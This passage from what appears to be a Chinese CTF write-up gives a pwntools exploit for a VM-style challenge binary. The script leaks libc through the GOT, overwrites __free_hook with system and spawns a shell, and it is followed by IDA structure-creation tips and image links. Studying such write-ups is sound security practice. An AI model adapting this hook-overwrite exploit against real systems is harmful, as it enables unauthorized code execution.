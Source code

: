 ```py
    gift()
    add(p8(0x9)+p8(0x11)+p32(0x99)) #command
    command()

    p.recvuntil('0x')
    pie = int(p.recv(8), 16)-0x6c0

    data = ''
    for i in range(4):
        payload = p8(0x71) + p32(pie + elf.got['__libc_start_main']+i)
        payload += p8(0x76) + p32(0) + p8(0x53) + p8(0)
        payload += p8(0x99)
        add(payload)
        command()
        data += p.recv(1)

    __libc_start_main = u32(data)
    libc_addr = __libc_start_main - libc.symbols['__libc_start_main']
    print('libc: '+hex(libc_addr))
    system = libc.symbols['system']+libc_addr
    __free_hook = libc.symbols['__free_hook']+libc_addr

    payload = p8(0x71) + p32(__free_hook)
    payload += p8(0x76) + p32(0) + p8(0x54) + p8(0)
    payload += p8(0x71) + p32(__free_hook + 1)
    payload += p8(0x76) + p32(0) + p8(0x54) + p8(0)
    payload += p8(0x71) + p32(__free_hook + 2)
    payload += p8(0x76) + p32(0) + p8(0x54) + p8(0)
    payload += p8(0x71) + p32(__free_hook + 3)
    payload += p8(0x76) + p32(0) + p8(0x54) + p8(0)
    payload += p8(0x99)
    add(payload)
    command()
    p.send(p32(system))

    payload = p8(0x80)+p8(0)+p16(u16('sh'))+p8(0)+p8(0)+p8(0x99)
    add(payload)
    command()
    recycle()

    p.interactive()
```

### 补充
1. 打开创建结构体的 `Subview`，点击工具栏 `View->Open Subview->Structures`(`Shift + F9`)。
2. 按键盘`Insert`弹出结构体的创建窗口，输入`Structure name`。
3. 在结构体的`ends`行，按键盘`d`键，创建新的结构体成员。
4. 在结构体成员初按`d`键，修改数据类型(`db dw dd dq`)，右键点击`Array`可以创建数组。
结构体创建完成后，效果如下：
![image_1e3p36h6gntr11qi1sfv89qpc09.png-85.3kB][13]
5. 最后，分析代码。确定结构体中的成员在反汇编代码中的名称。之后，修改反编译代码中该 成员的类型，按 y 修改为`struct name`(注意是否是指针)。修改完成后，最终效果如下：
![image_1e3p39t88h7a1gno1rvi1ggcccpm.png-62.1kB][14]


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png
